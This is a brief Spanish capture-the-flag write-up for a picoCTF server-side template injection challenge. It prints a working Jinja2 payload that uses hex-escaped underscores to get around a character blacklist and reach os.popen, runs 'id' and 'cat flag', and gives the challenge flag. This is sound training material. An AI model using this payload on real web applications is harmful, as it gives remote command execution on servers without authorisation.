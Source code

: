 # Descripción
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:51768/)!
Hints:
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?
# Solución
- Abriremos la página que nos dan
- Al igual que en el 1 buscaremos en una página para encontrar una inyección y usarla
- Intentamos con multiples inyecciones y nos aparece un mensaje que dice "para de tratar de romperme"
- Hasta que encontramos la inyección correcta
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
- Ahora si nos da los ID´s
- Cambiamos el id por un cat flag y obtendremos la bandera
```
# picoCTF{sst1_f1lt3r_byp4ss_ece726e9}
```
# Notas adicionales
# Referencias